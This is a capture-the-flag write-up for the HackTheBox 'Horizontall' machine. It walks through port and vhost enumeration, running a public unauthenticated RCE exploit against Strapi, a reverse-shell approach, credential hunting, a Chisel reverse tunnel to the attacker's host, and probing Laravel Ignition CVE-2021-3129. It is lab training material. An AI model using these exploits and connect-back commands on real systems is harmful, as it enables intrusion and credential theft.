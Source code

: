 # HACKTHEBOX - Horizontall

## Description
A write-up with a lot of personal note so is pretty messy!!

```bash
export IP=10.10.11.105
```

## Enumeration
```bash
alias rustscan='sudo docker run -it --rm --name rustscan rustscan/rustscan'
rustscan -a $IP -g # [22,80]

sudo nmap -v -sC -sV -p 22,80 -o nmap.txt $IP
```

**nmap result**:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Redirect to `domain name`
```bash
sudo subl /etc/hosts
# 10.10.11.105 horizontall.htb
```

brute-force directory: `nothing!!`
```bash
gobuster dir -w /usr/share/wordlists/dirb/common.tx -u http://horizontall.htb/
```

brute-force `vhost` in Host header: `something!!`
```bash
wfuzz -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -v -H "Host: FUZZ.horizontall.htb" --hc 301 -u http://horizontall.htb/

# OR 
gobuster vhost -u http://horizontall.htb/ -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt

# www
# api-prod

# gobuster subdomain ....
```
Also, inspect `js file`(html source code) --> api-prod....

**Virtual Host**: https://en.wikipedia.org/wiki/Virtual_hosting (vhost is just like independent webserver while subdomain like a sub main-folder of the web app)

**To access a vhost**:
```bash
/sudo subl /etc/hosts
# 10.10.11.105 horizontall.htb api-prod.horizontall.htb
```
**CMS**: `Strapi`

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt  -u http://api-prod.horizontall.htb/
# /admin
```
`/admin --> admin/auth/login`

In `init request`:
```json
{"data":{"uuid":"a55da3bd-9693-4a08-9279-f9df57fd1817","currentEnvironment":"development","autoReload":false,"strapiVersion":"3.0.0-beta.17.4"}}
```
```bash
searchsploit strapi 3.0
# Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated) | multiple/webapps/50239.py
searchsploit -m multiple/webapps/50239.py
```
**CVE-2019-18818**: `strapi before 3.0.0-beta.17.5` `mishandles password resets` within packages/strapi-admin/controllers/Auth.js and packages/strapi-plugin-users-permissions/controllers/Auth.js.

Object injection via ResetPassword parameter.

```bash
python3 50239.py http://api-prod.horizontall.htb
# [+] Password reset was successfully
# [+] Your email is: admin@horizontall.htb
# [+] Your new credentials are: admin:SuperStrongPassword1
# [+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQ0MTYzMTQ5LCJleHAiOjE2NDY3NTUxNDl9.7SGucFCRHNCi-HhW8xF4cZ9ZcV3l3GKU45hb9e7BiWc

# blind rce
# nc mkfifo --> reverse-shell
# python3 --> interactive shell

cat /etc/passwd | grep strapi # we have our own shell --> can establist a ssh shell
```

Reverse shell commonly fail maybe also because of bad characters, we can get around this by hosting a webshell.

**user flag**: `HTB{2dd8275a0606fd1eba918466557XXXXX}`

```bash
./linpeas.sh

# mamnual enumeration

# go to directory you wanna enumerate
grep -Ri password . # Or just make it ugly with /
env | grep DATA # SECRET_KEY
# ....
```

**Found**: but not useful!
```
-rw-rw-r-- 1 strapi strapi 351 May 26  2021 /opt/strapi/myapi/config/environments/development/database.json
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```

```bash
mysql -u developer
# Password: #J!:F9Zt2u
# nothing here!

su developer
# Password: #J!:F9Zt2u
# failed here!
```

**Scan ports in local**:
```bash
nc -z -v 10.10.11.105 1-10000 2>&1 | grep succeeded # dumb scan

# Download nmap binary to scan(linpeas not support ports scan subnet!!)
./nmap.sh localhost -v -p-

# using default command in linux <RECOMMENDED>
ss -l # investigate socket(check ports open)
```
**nmap results**:
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1337/tcp open  unknown
3306/tcp open  mysql
8000/tcp open  unknown
```

```bash
curl localhost:8000 # web server here!, let's port forwarding
```

**Using Chisel**:
```bash
# kali machine
/chisel_1.7.3_linux_amd64 server -p 8989 --reverse &

# horizontall machine
# ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
./chisel_1.7.3_linux_amd64 client 10.10.14.32:8989 R:34567:127.0.0.1:8000 &
# This chisel client will connect back to our chisel server listening on port(8989) in our machine, port 34567 is local_port that forwarding to 8989 server port to port 8000 at horizontall machine. Need more explain here!!

# test
curl locahost:34567 # success!!
# Laravel v8 (PHP v7.4.18)
```

**Using SSH**:
```bash
# using SSH
ssh -i id_rsa strapi@horizontall.htb -L 34567:127.0.0.1:8000
#in ssh Command Prompt
> -L 8001:127.0.0.1:8000
```

Google search `Laravel v8 (PHP v7.4.18)` --> debug mode to RCE --> https://esmyl.medium.com/exploiting-laravel-v8-30-0-php-v7-3-25-debug-rce-3731f69c33d7
```bash
curl -d '{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "test", "viewFile": "/etc/passwd%00"}}' -H 'Content-Type: application/json' http://127.0.0.1:34567/_ignition/execute-solution | grep failed
# ....failed to open stream:....
```

Error message "ErrorException: file_get_contents(/etc/passwd%00): failed to open stream:" indicates HOST is VULNERABLE! --> `CVE-2021-3129` Laravel  Ignition 

**exploit tool**: https://github.com/rocketscientist911/CVE-2021-3129/blob/master/exploit.py

Download and then just modify the path + command:
![edit the code](cve-2021-3129-exploit-file.png)

**root flag**: `HTB{21a933c797a8fc2623472fbf7e4XXXXX}`